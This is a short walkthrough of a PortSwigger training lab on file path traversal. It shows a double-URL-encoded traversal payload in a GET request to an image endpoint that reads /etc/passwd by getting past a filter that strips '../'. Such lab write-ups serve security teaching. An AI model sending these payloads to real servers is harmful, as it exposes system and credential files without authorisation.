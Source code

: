 
# File path traversal, traversal sequences stripped with superfluous URL-decode

This lab contains a file path traversal vulnerability in the display of product images.

The application blocks input containing path traversal sequences. It then performs a URL-decode of the input before using it.

To solve the lab, retrieve the contents of the /etc/passwd file.

---------------------------------------------

References: 

- https://portswigger.net/web-security/file-path-traversal



![img](images/File%20path%20traversal,%20traversal%20sequences%20stripped%20with%20superfluous%20URL-decode/1.png)

---------------------------------------------

To retrieve an image the application uses a GET request with the parameter filename:



![img](images/File%20path%20traversal,%20traversal%20sequences%20stripped%20with%20superfluous%20URL-decode/2.png)



To retrieve /etc/passwd we need to use double URL encode the characters:

```
GET /image?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd
```



![img](images/File%20path%20traversal,%20traversal%20sequences%20stripped%20with%20superfluous%20URL-decode/3.png)